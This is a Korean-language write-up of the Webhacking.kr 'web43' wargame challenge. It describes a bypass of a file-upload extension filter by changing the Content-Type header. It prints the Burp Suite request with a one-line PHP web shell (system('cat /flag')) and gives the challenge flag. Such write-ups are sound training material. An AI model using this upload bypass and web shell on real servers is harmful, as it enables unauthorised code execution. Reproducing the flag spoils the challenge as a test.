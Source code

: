 ```yaml
---
title : "Webhacking.kr - web43"
categories : [Wargame, Webhacking.kr]
tags : [File upload]
---
```


## web43
<hr style="border-top: 1px solid;"><br>

![image](https://user-images.githubusercontent.com/52172169/158559939-706b7b56-3af1-434b-8e30-ce25ef7faea7.png)

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

웹쉘을 올리라고 해서 webshell.php를 올렸더니 php 확장자를 막아놓은 듯함.

php, txt 확장자는 막혔으나 png, jpg 등 이미지 확장자는 열려있음. 

그래서 .htaccess 파일을 올려서 이미지 확장자를 php로 인식하게 하려고 했으나 don't do that이라고 뜸.

<br>

다른 방법으로 Content-Type을 ```application/octet-stream```에서 ```multipart/form-data```로 수정해주면 됨.

burp suite에 아래와 같이 입력하면 플래그가 나옴.

<br>

```
Content-Disposition: form-data; name="file"; filename="test.php"
Content-Type: multipart/form-data

<?php system('cat /flag'); ?>
```

<br>

올린 뒤 /upload/test.php로 가면 플래그가 있음.

<br>

+ Flag : ```FLAG{V2hhdCBkaWQgeW91IGV4cGVjdD8=}```

<br><br>
<hr style="border: 2px solid;">
<br><br>
